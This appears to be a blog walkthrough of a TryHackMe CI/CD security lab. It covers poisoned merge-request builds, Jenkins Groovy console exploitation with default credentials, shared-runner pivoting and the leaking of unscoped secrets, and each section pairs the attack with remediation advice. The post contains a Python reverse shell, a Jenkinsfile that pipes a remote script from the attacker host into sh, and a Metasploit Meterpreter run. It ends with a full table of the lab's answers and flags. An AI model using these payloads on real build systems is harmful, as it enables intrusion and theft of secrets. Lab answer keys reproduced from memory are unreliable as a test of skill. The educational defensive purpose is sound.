





---
layout: post
title: "CI/CD and Build Security - Pipeline Exploitation, Build Runner Poisoning, and Environment Segregation"
date: 2026-05-22T10:00:00+03:00
categories:
  - TryHackMe
  - DevSecOps
tags:
  - tryhackme
  - devsecops
  - build-security
  - cicd
  - gitlab
  - jenkins
  - supply-chain
  - runner-security
author: muhammed
description: Deep-dive walkthrough of TryHackMe CI/CD and Build Security covering pipeline attack surfaces, Jenkins Groovy console exploitation, on-merge build hijacking, runner cross-contamination, and multi-tier environment hardening.
toc: true
pin: false
math: false
mermaid: true
image:
---

## Overview

[CI/CD and Build Security](https://tryhackme.com/room/cicdandbuildsecurity) is the capstone practical laboratory of Section 2 (Security of the Pipeline) in TryHackMe's DevSecOps Learning Path. In modern development shops, CI/CD pipelines represent remote code execution (RCE) as an intentional architectural feature. Orchestrators ingest untrusted code commits, compile dependencies, execute testing logic, and deploy release binaries across infrastructure tiers.

When security controls fail to isolate pipeline stages, restrict triggers, enforce separation of duties, or segregate build runners, attackers can pivot from minor repository privileges to full infrastructure compromise. This walkthrough explores the practical attack surface of DevOps infrastructure, demonstrating how misconfigured webhooks, shared runners, default orchestrator credentials, and unscoped secrets allow adversaries to compromise development workflows and pivot into production environments.

---

## 1. Network Topology and Attack Surface

The lab simulates an enterprise extraterrestrial delivery architecture connected to the **MU-TH-UR 6000 (Mother)** mainframe:



### Core Architecture Components
1. **Source Code Storage:** GitLab instance holding codebases, branches, and declarative CI manifests.
2. **Build Orchestrators:** GitLab and Jenkins coordinating pipeline execution, evaluating triggers, and dispatching tasks.
3. **Build Agents / Runners:** Worker nodes executing shell commands, Docker containers, and test suites.
4. **Target Environments:** Dedicated runtime hosts representing DEV and PROD environments.
5. **Mainframe (Mother):** Central verification host (`ssh mother@10.200.60.250`) evaluating compromised hosts and dispensing verification flags.

---

## 2. CI/CD Security Fundamentals & The SolarWinds Paradigm

The 2020 **SolarWinds** supply chain attack demonstrated the catastrophic blast radius of build system compromise. Threat actors compromised the internal build system of SolarWinds Orion, injecting the **SUNBURST** backdoor directly into legitimately signed software updates. Millions of downstream client networks, including critical government agencies, were compromised without any direct perimeter breach.

### GitLab CI/CD Core Fundamentals
- **Single Source Repository:** Storing all build instructions and configurations in version control.
- **Frequent Check-ins & Iterations:** Small, frequent merges to limit integration drift.
- **Automated & Self-Testing Builds:** Continuous compilation and automated quality/security gates.
- **Stable Testing Environments:** Staging environments that accurately mirror production runtime.
- **Maximum Visibility:** Developers maintain visibility into build artifacts, logs, and commit histories.
- **Predictable Deployments:** Deterministic delivery workflows operating anytime with minimal risk.

### Core Hardening Principles
- **Build Isolation:** Executing builds inside ephemeral, sandboxed containers rather than shared bare-metal host shells.
- **Strict Network Segmentation:** Ensuring build agents cannot establish unmonitored egress connections or communicate directly across environment boundaries.
- **Least Privilege Access:** Restricting administrative access on orchestrators and enforcing multi-factor authentication (MFA).

---

## 3. Pipeline Construction & Runner Registration (Task 4)

To understand pipeline vulnerabilities, we first examine how pipelines execute work via declarative configuration files and runners.

### Declarative Pipeline: `.gitlab-ci.yml`

In GitLab, pipelines are defined in `.gitlab-ci.yml` at the repository root. A standard pipeline organizes tasks into ordered stages:

```yaml
stages:
  - build
  - test
  - deploy

build-job:
  stage: build
  script:
    - echo "Compiling project assets for $GITLAB_USER_LOGIN"

test-job1:
  stage: test
  script:
    - echo "Running unit test suite"

test-job2:
  stage: test
  script:
    - echo "Running integration checks"
    - sleep 20

deploy-prod:
  stage: deploy
  script:
    - mkdir -p /tmp/time/cicd
    - cp website_src/* /tmp/time/cicd/
    - screen -d -m php -S 127.0.0.1:8081 -t /tmp/time/cicd/ &
  environment: production
```

### Registering a GitLab Runner

Runners execute the commands defined in the `script` stanzas. Registering a runner binds a worker machine to the GitLab orchestrator:

```bash
sudo gitlab-runner register \
  --url http://gitlab.tryhackme.loc/ \
  --registration-token "REGISTRATION_TOKEN" \
  --description "runner-attackbox" \
  --executor "shell"
```

Once registered and configured to execute untagged jobs, updating `README.md` triggers the automated pipeline. Navigating to the deployed web application at `http://127.0.0.1:8081/` yields the initial authentication flag:

```text
THM{Welcome.to.CICD.Pipelines}
```

---

## 4. Securing the Build Source: Open Registration & API Harvesting (Task 5)

A major vulnerability in self-hosted source code management is the assumption that the internal corporate network is inherently secure.

### The Attack Vector: Unrestricted Registration and Over-Permissioned Repositories

When organizations permit any authenticated corporate user to create GitLab accounts, the attack surface expands to every employee. If internal developers mark internal repositories as "Public" within the instance, any compromised user account can access all proprietary source code.



### Automated Enumeration Script

Using a Python automation script with a personal access token (`api`, `read_api`, `read_repository`), an attacker can enumerate and download all visible repositories:

```python
import gitlab
import uuid

gl = gitlab.Gitlab("http://gitlab.tryhackme.loc/", private_token="API_TOKEN_HERE")
gl.auth()

for project in gl.projects.list(all=True):
    print(f"Downloading project: {project.name}")
    uid = str(uuid.uuid4())
    try:
        archive = project.repository_archive(format="zip")
        with open(f"{project.name}_{uid}.zip", "wb") as f:
            f.write(archive)
    except Exception as e:
        print(f"Error downloading {project.name}: {e}")
```

Extracting the downloaded archives and searching for credentials reveals an exposed API key within the **Mobile App** project:

```text
THM{You.Found.The.API.Key}
```

### Remediation Controls
- Disable open user registration in GitLab administration settings.
- Implement **Group-Based Access Control** with strict role tiers (Guest, Reporter, Developer, Maintainer, Owner).
- Enforce `.gitignore` standards to prevent committing credentials and configuration files.
- Enable **Branch Protection** to block unreviewed direct pushes.

---

## 5. Securing the Build Process: Poisoned On-Merge Builds (Task 6)

One of the most dangerous CI/CD anti-patterns is automatically executing build pipelines on untrusted merge requests.

### The Toxic Combination

When automated builds trigger on pull/merge requests from untrusted contributors and the build definition (such as a `Jenkinsfile` or `.gitlab-ci.yml`) is read directly from the submitted branch, an attacker gains arbitrary command execution on the build runner:



### Exploitation via Malicious Jenkinsfile

1. Fork Ash Android's `Merge-Test` repository (`http://gitlab.tryhackme.loc/ash/Merge-Test`).
2. Create a reverse shell script hosted on your attack machine (`shell.sh`):
   ```bash
   /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.50.2.3",8082)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
   ```
3. Host `shell.sh` using a Python HTTP server on port 8081:
   ```bash
   python3 -m http.server 8081
   ```
4. Start a netcat listener on port 8082:
   ```bash
   nc -lvp 8082
   ```
5. Modify the `Jenkinsfile` in the forked repository:
   ```groovy
   pipeline {
       agent any
       stages {
           stage('build') {
               steps {
                   sh '''
                       curl http://10.50.2.3:8081/shell.sh | sh
                   '''
               }
           }
       }
   }
   ```
6. Commit the change and submit a Merge Request to the upstream project.

The webhook triggers Jenkins, which checks out the pull request and executes the modified `Jenkinsfile`. The build runner connects back to our netcat listener with shell access as `ubuntu`.

Authenticating to the **Mother** mainframe confirms the compromise and awards **Flag 1**:

```text
THM{7753f7e9-6543-4914-90ad-7153609831c3}
```

---

## 6. Securing the Build Server: Jenkins Console Exploitation (Task 7)

Build servers orchestrate high-privilege activities. Compromising the build orchestrator grants complete control over all pipelines and secrets.

### Exploitation via Default Credentials & Script Console

In many environments, internal build servers remain configured with default credentials. Accessing Jenkins at `http://jenkins.tryhackme.loc:8080/`, we authenticate with:
- **Username:** `jenkins`
- **Password:** `jenkins`

Jenkins features a built-in **Groovy Script Console** (`/script`) intended for administrative maintenance. This console runs arbitrary Groovy code in the JVM process of the Jenkins master, enabling direct system command execution.

Using Metasploit's `jenkins_script_console` module:

```bash
msfconsole -q
msf6 > use exploit/multi/http/jenkins_script_console
msf6 exploit(multi/http/jenkins_script_console) > set RHOST jenkins.tryhackme.loc
msf6 exploit(multi/http/jenkins_script_console) > set RPORT 8080
msf6 exploit(multi/http/jenkins_script_console) > set TARGETURI /
msf6 exploit(multi/http/jenkins_script_console) > set USERNAME jenkins
msf6 exploit(multi/http/jenkins_script_console) > set PASSWORD jenkins
msf6 exploit(multi/http/jenkins_script_console) > set target 1
msf6 exploit(multi/http/jenkins_script_console) > set payload linux/x64/meterpreter/bind_tcp
msf6 exploit(multi/http/jenkins_script_console) > run
```

The exploit uses the Groovy console to drop a Meterpreter payload, yielding root/daemon privileges on the Jenkins server. Verifying the compromise with Mother returns **Flag 2**:

```text
THM{1769f776-e03c-40b6-b2eb-b298297c15cc}
```

---

## 7. Securing the Build Pipeline: Access Gates and Two-Person Rule (Task 8)

Access gates enforce quality, compliance, and peer review before code promotes. However, policy without technical enforcement fails.

### The Self-Approval Vulnerability

In Ash's `Approval-Test` repository (`http://gitlab.tryhackme.loc/ash/approval-test`), developers are prohibited from direct pushes to `main`. Instead, they must submit merge requests.

However, the repository lacked a mandatory **Two-Person Rule** technically enforcing peer sign-off. As user `anatacker`:
1. Submit a change requiring a merge request.
2. The UI indicates approval is optional.
3. The author approves their own merge request and merges it directly to `main`.

Because the GitLab runner only executes jobs on `main`, merging our custom `.gitlab-ci.yml` allows arbitrary command execution on the runner node.



Executing our payload on the runner and validating with Mother awards **Flag 3**:

```text
THM{2411b26f-b213-462e-b94c-39d974e503e6}
```

---

## 8. Securing the Build Environment: Shared Runner Contamination (Task 9)

A critical architectural flaw in build infrastructure is sharing runners across different security zones.

### Lateral Movement via Shared Runner

In the `environments` repository (`http://gitlab.tryhackme.loc/ash/environments`), Ash restricted `main` access completely, leaving Ana access only to the `DEV` branch.

Inspecting job execution logs reveals that both `DEV` and `PROD` builds run on the identical runner host: **Runner #6**.

Because Runner #6 executes both development and production builds:
1. Ana pushes a job on the `DEV` branch to execute code on Runner #6.
2. Ana compromises the runner host, achieving persistence.
3. When a legitimate production build executes on Runner #6, the persistence mechanism intercepts production credentials and accesses the `PROD` host (`10.200.60.230`).



Authenticating to Mother from the DEV host yields **Flag 4**:

```text
THM{28f36e4a-7c35-4e4d-bede-be698ddf0883}
```

Pivoting through the compromised shared runner into the PROD host yields **Flag 5**:

```text
THM{e9f99dbe-6bae-4849-adf7-18a449c93fe6}
```

---

## 9. Securing Build Secrets: Unscoped Variables (Task 10)

The final hardening boundary lies in how secrets are scoped within CI/CD pipelines.

### Extracting Unscoped Production Secrets

In GitLab, CI/CD variables can be scoped globally or restricted to protected branches and environments. If a production variable (`API_KEY`) is stored without environment or branch scoping, any job running on an unprotected development branch can access and print it.

In the `DEV` branch's `.gitlab-ci.yml`, we update the test stage script to reference the production variable name:

```yaml
test_job:
  stage: test
  script:
    - echo "Leaked production secret is: $API_KEY"
```

Because the variable was not marked as **Protected** or scoped exclusively to the production environment, the runner prints the production secret into the build logs:

```text
THM{Secrets.are.meant.to.be.kept.Secret}
```

### Remediation: Masked and Protected Variables
1. **Protected Variables:** Injected only into pipelines running on protected branches (e.g., `main`).
2. **Masked Variables:** Automatically obfuscated with `[MASKED]` if printed to job logs.
3. **Environment Scoping:** Bound strictly to designated environments (e.g., `production/*`).

---

## 10. Question, Answer, and Flag Summary

| Task # | Task Title | Question / Challenge | Answer / Flag |
|---|---|---|---|
| **Task 1** | Introduction | I'm ready to learn about CI/CD and Build Security! | *No answer needed* |
| **Task 2** | Setting up | Network setup confirmation | *No answer needed* |
| **Task 3** | What is CI/CD and Build Security? | What element of a CI/CD pipeline coordinates and manages the automation of build and deployment environments? | `build orchestrator` |
| **Task 3** | What is CI/CD and Build Security? | What element of a CI/CD pipeline builds, tests, and packages code? | `build agents` |
| **Task 3** | What is CI/CD and Build Security? | What fundamental of CI/CD promotes developers having access to latest builds and code? | `maximum visibility` |
| **Task 4** | Creating your own Pipeline | What is the name of the build agent that can be used with Gitlab? | `GitLab Runner` |
| **Task 4** | Creating your own Pipeline | What is the value of the flag you receive once authenticated to Timekeep? | `THM{Welcome.to.CICD.Pipelines}` |
| **Task 5** | Securing the Build Source | Which file specifies which directories and files should be excluded for version control? | `.gitignore` |
| **Task 5** | Securing the Build Source | What can you protect to ensure direct pushes and vulnerable code changes are avoided? | `branches` |
| **Task 5** | Securing the Build Source | What issue does lack of access control and unauthorised code changes lead to? | `unauthorised tampering` |
| **Task 5** | Securing the Build Source | What is the API key stored within the Mobile application that can be accessed by any Gitlab user? | `THM{You.Found.The.API.Key}` |
| **Task 6** | Securing the Build Process | Where should you store artefacts to prevent tampering? | `secure registry` |
| **Task 6** | Securing the Build Process | What mechanism should you always use to store and inject sensitive data? | `secret management` |
| **Task 6** | Securing the Build Process | What attack can malicious actors perform to inject malicious code in the build process? | `supply chain attacks` |
| **Task 6** | Securing the Build Process | Authenticate to Mother and follow the process to claim Flag 1. What is Flag 1? | `THM{7753f7e9-6543-4914-90ad-7153609831c3}` |
| **Task 7** | Securing the Build Server | What can be used to ensure that remote access to the build server can be performed securely? | `VPN` |
| **Task 7** | Securing the Build Server | What can be used to add an additional layer of authentication security for build agents? | `Token-Based Authentication` |
| **Task 7** | Securing the Build Server | Authenticate to Mother and follow the process to claim Flag 2. What is Flag 2? | `THM{1769f776-e03c-40b6-b2eb-b298297c15cc}` |
| **Task 8** | Securing the Build Pipeline | What can we add so that merges are raised for review instead of pushing changes directly? | `merge requests` |
| **Task 8** | Securing the Build Pipeline | What should we do so that only trusted runners execute CI/CD jobs? | `Limit runner access` |
| **Task 8** | Securing the Build Pipeline | Authenticate to Mother and follow the process to claim Flag 3. What is Flag 3? | `THM{2411b26f-b213-462e-b94c-39d974e503e6}` |
| **Task 9** | Securing the Build Environment | What should you do so that a compromised environment doesn't affect other environments? | `isolate environments` |
| **Task 9** | Securing the Build Environment | Authenticate to Mother to claim Flag 4 from the DEV environment. What is Flag 4? | `THM{28f36e4a-7c35-4e4d-bede-be698ddf0883}` |
| **Task 9** | Securing the Build Environment | Authenticate to Mother to claim Flag 5 from the PROD environment. What is Flag 5? | `THM{e9f99dbe-6bae-4849-adf7-18a449c93fe6}` |
| **Task 10** | Securing the Build Secrets | Is using environment variables enough to protect the build secrets? (yay or nay) | `nay` |
| **Task 10** | Securing the Build Secrets | What is the value of the PROD API_KEY? | `THM{Secrets.are.meant.to.be.kept.Secret}` |
| **Task 11** | Conclusion | I understand CI/CD and Build Security! | *No answer needed* |

---

## You can find me online at:


- **GitHub:** [Mhdomer](https://github.com/Mhdomer)
- **LinkedIn:** [mhd3omar](https://www.linkedin.com/in/mhd3omar/)
- **Tryhackme:** [nonlouy](https://tryhackme.com/p/nonlouy)
